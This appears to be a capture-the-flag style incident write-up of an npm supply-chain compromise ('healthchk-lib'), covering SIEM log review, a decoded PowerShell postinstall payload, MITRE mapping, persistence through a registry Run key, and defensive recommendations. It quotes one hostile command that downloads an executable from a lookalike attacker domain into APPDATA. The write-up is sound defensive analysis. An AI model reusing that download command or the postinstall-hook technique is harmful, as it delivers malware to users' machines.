

# Incident Writeup – Supply Chain Attack

## Overview
During the setup of a new website, a malicious **npm package (`healthchk-lib@1.0.1`)** was introduced into the system.  
Investigation revealed a **supply chain compromise**: the package executed a hidden script, launched obfuscated PowerShell commands, and established persistence.

---

- **Dashboard Context**  
  The exercise presents a hypothesis that must be validated through log analysis and SIEM findings.

- **Mission**  
  {: width="972" height="589" }

- **Overall Summary**  
    {: width="972" height="589" }

- **Indicators of Compromise (IOC)**  
  {: width="972" height="589" }

  {: width="972" height="589" }

---

## Findings

### Diving into the SIEM

We begin by reviewing the system logs for unusual activity.

#### Initial Access

  {: width="972" height="589" }

- Log entries show the installation of the package:  
  `healthchk-lib@1.0.1` via **PowerShell**.  
  
  {: width="972" height="589" }

- Scrolling further, we observe the execution of a **malicious script**:  
  `postinstall.ps1`  

- This script triggered **PowerShell with encoded commands**.  

 {: width="972" height="589" }

- Using **CyberChef** to decode the command:  

  {: width="972" height="589" }

  → The decoded payload reveals attempts to download an executable (`SystemHealthUpdater.exe`) from the domain `global-update.wlndows.thm`.

#### Attack Stage Diagram
- **Stage 1: Initial Access**  
  {: width="972" height="589" }

---

### Execution

- **Title**: Malicious Script Execution Post Installation  
- **Description**: A PowerShell command executed via `cmd.exe` downloaded `SystemHealthUpdater.exe` using `Invoke-WebRequest`.  
- **Timestamp**: June 21, 2025, 10:58:27 AM BST  
- **Tactic & Technique**:  
  - Execution (**TA0002**)  
  - Command and Scripting Interpreter (**T1059**)  
- **Indicators of Compromise (IOC)**:  
  - Decoded PowerShell revealed:  
    ```powershell
    Invoke-WebRequest -Uri http://global-update.wlndows.thm/SystemHealthUpdater.exe -OutFile $env:APPDATA\SystemHealthUpdater.exe
    ```  

*(Missed the screenshot for this step 🙃)*

---

### Persistence

{: width="972" height="589" }

- **Technique Correction**: Persistence was achieved via **Boot or Logon Autostart Execution**, not the originally assumed method.  
- Registry Run Key entry:  

## Report

All IOCs identified at the beginning were validated during the investigation.  
The hypothesis was confirmed, and the findings were submitted.  

- **AI-Generated Report Reminder**:  
The automated system may omit some details. It ommited IOCs and altered date in my case. Always review before final submission.  

  {: width="972" height="589" }

---

## Summary

- **Initial Access**: Supply chain attack through npm dependency.  
- **Execution**: Obfuscated PowerShell downloaded and attempted to run a malicious payload.  
- **Persistence**: Run Key added under `HKCU` ensured execution at logon.  

---

## Recommendations

- Perform **regular dependency audits** (`npm audit`, third-party scanners).  
- Enable and monitor **detailed PowerShell logging**.  
- Monitor for suspicious **registry modifications** in `HKCU\...\Run`.  
- Block traffic to **untrusted external domains**.  
- Educate developers on the **risks of supply chain compromises** in open-source packages.  